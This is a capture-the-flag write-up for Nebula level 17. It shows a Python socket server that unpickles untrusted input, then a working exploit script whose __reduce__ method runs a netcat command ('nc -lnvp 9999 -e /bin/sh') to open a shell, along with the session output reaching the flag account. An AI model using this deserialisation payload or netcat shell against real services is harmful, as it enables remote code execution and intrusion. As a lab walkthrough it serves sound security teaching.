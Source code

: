 +++
author = "pwntester"
categories = ["nebula17"]
date = 2013-11-26T20:15:00Z
description = ""
draft = false
slug = "nebula-level17-write-up"
tags = ["nebula17"]
title = "Nebula level17 write-up"

+++

In [Level 17](http://exploit-exercises.com/nebula/level17) we are given a vulnerable python server:

```lang-python line-numbers 
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
```

The only part of the application that processes our data is:

```lang-python line-numbers 
obj = pickle.loads(line)
```

Googling a little bit about **picke** we find many sites describing how to abuse pickle deserialization by running arbitrary commands when unpickling. More details [here](http://blog.nelhage.com/2011/03/exploiting-pickle/)

Our exploit will serialize an object that implements the **__reduce__()** method. This method will be called at pickling time and should return a function and arguments to call at unpickling time so we can call any arbitrary function:

```lang-python line-numbers 
#!/usr/bin/python

import os
import pickle
import socket

class Pandora(object):
	def __reduce__(self):
		return (os.system,(('nc -lnvp 9999 -e /bin/sh'),))

HOST = "127.0.0.1"
PORT = 10007
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST,PORT))
reply = s.recv(1024)
print(HOST + ": " + reply)
obj = Pandora()
sobj = pickle.dumps(obj)
print("Sending: " + str(obj))
s.send(sobj)
print("Awaiting reply from: " + HOST)
reply = s.recv(1024)
print(HOST + ": " + reply)
```

We will start up a **netcat** listener that will send us a reverse shell when conencted.

```lang-bash line-numbers 
level17@nebula:~$ python exploit.py
127.0.0.1: Accepted connection from 127.0.0.1:58539
Sending: <__main__.Pandora object at 0xb782fcec>
Awaiting reply from: 127.0.0.1
^CTraceback (most recent call last):
  File "exploit.py", line 22, in <module>
    reply = s.recv(1024)
KeyboardInterrupt
```

Now, lets connect to our reverse shell:

```lang-bash line-numbers 
level17@nebula:~$ nc 127.0.0.1 9999
id
uid=982(flag17) gid=982(flag17) groups=982(flag17)
getflag
You have successfully executed getflag on a target account
```

Voila!!
